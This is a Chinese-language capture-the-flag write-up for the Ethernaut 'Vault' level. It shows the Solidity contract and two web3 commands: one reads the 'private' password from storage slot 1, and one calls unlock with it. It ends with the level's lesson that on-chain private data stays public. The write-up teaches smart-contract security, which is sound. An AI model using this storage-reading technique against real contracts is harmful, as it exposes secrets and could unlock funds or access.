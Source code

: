 ```
Unlock the vault to pass the level!
```





```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
    bool public locked;
    bytes32 private password;

    constructor(bytes32 _password) {
        locked = true;
        password = _password;
    }

    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```





好吧，乍一看感觉没办法弄，但是，区块链，都是在链上公开的！。。。哪怕password是private，但一样可以得到。。。

使用[Web3的getStorageAt函數](https://web3js.readthedocs.io/en/v1.3.1/web3-eth.html#getstorageat)可以取得指定地址特定位置的[storage](https://docs.soliditylang.org/en/v0.8.1/introduction-to-smart-contracts.html#storage-memory-and-the-stack)



所以我们可以尝试进行读取：

```js
await web3.eth.getStorageAt(instance, 1).then(web3.utils.toAscii).then(console.log);
```

![image-20250301223714751](./Vault/images/image-20250301223714751.png)

然后unlock即可。

```js
await contract.unlock(web3.utils.fromAscii("A very strong secret password :)"));
```



It's important to remember that marking a variable as private only prevents other contracts from accessing it. State variables marked as private and local variables are still publicly accessible.

To ensure that data is private, it needs to be encrypted before being put onto the blockchain. In this scenario, the decryption key should never be sent on-chain, as it will then be visible to anyone who looks for it. [zk-SNARKs](https://blog.ethereum.org/2016/12/05/zksnarks-in-a-nutshell/) provide a way to determine whether someone possesses a secret parameter, without ever having to reveal the parameter.


